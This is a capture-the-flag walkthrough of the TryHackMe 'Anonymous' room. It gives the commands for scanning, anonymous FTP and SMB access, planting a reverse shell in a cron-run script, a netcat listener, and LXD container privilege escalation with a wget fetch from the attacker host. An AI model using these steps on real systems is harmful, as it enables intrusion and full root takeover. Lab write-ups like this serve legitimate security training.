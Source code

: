 # Anonymous

**Room Link:** [https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/445  - SMB**

**Kali**

```
smbclient -L //$VICTIM/
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There were just two dog pics, probably not interesting.

**Kali**

```
mkdir loot
cd loot
smbclient \\\\$VICTIM\\pics
prompt
mget *
```



### TCP/21 - **FTP**

Login using anonymous and no pass

**Kali**

```
ftp $VICTIM 21
binary
passive
cd scripts
mget *
```

## Initial Shell

There were these 3 files

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I modified clean.sh to have a reverse shell back to my kali

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
nc -lvnp 1337
```

**Kali #2**

```
ftp $VICTIM 21
binary
passive
cd scripts
put clean.sh
```

After a few minutes the script was ran and I had a shell.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

<pre><code><strong>python -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>





## Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI/alpine-v3.18-x86_64-20231111_1929.tar.gz
lxc image import ./alpine-v3.18-x86_64-20231111_1929.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```







